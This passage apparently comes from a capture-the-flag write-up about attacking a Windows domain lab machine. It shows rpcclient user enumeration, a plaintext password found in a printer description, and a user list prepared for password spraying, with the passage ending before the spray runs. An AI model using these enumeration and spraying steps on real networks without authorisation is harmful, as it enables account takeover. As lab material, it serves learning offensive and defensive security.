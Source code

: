 Let us start by getting a list of all users.

```bash
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
```

As we have seen previously that a printer is installed let us use `enumprinters` to check for any printer-config.

```bash
rpcclient $> enumprinters
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]
```

Seems like we have a password: `$fab@s3Rv1ce$1`. Now let us do a password-spraying attack once again.

```bash
root@darkness:~# cat full-users.txt 
Administrator
Guest
krbtgt
DefaultAccount
svc-print
bnielson
sthompson
tlavel
pmerton
svc-scan
bhult
dandrews
mberbatov
astein
dmuir
```
